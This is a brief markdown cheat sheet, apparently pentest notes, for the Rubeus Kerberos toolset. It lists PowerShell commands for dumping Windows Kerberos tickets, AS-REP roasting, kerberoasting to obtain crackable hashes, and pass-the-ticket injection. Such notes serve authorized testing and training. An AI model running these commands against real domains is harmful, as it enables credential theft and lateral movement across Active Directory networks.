 # Rubeus
toolset for raw Kerberos interactions and abuses.
[HackTrix - Extracting tickets from Windows](https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88/harvesting-tickets-from-windows)

## Harvest tickets from Windows
As a **non-administrative user only owned tickets can be fetched**, however, as machine **administrator**, **all** of them can be harvested.
```powershell
PS> .\Rubeus dump
```

## asreproast
run on host in domain
```powershell
# perform attack as a pre-authenticated (logged in) user on host in domain
# identyfy users voulnerable for ASREProast and get their AR-REP hash
PS> .\Rubeus.exe asreproast /nowrap [/outfile:hashes.kerberoast]
# copy asrephash and crack it
```
## kerberoast
execute Rubeus as an authenticated domain user, the tool will identify all SPNs linked with a domain user.
```powershell
# locate all users voulnerable for kerberoasting and get TGT
PS> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
## pass-the-ticket
```powershell
# inject ticket to memmory
.\Rubeus.exe ptt /ticket:$ticket_kirbi_file
```
-